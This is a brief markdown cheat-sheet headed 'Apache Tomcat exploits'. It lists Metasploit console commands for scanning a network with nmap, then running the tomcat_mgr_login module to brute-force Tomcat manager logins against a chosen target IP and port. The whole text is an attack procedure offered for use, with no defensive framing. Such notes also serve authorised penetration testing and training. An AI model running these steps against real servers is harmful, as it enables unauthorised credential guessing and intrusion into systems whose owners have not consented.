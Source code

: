 # Apache Tomcat exploits
- msfconsole
- nmap -sV [network] (if you find Apache Tomcat)
- search tomcat
- use auxiliary/scanner/http/tomcat_mgr_login
- show options
- set RHOSTS [target-ip-addr]
- set RPORT [target-service-port]
- set STOP_ON_SUCCESS true
- run
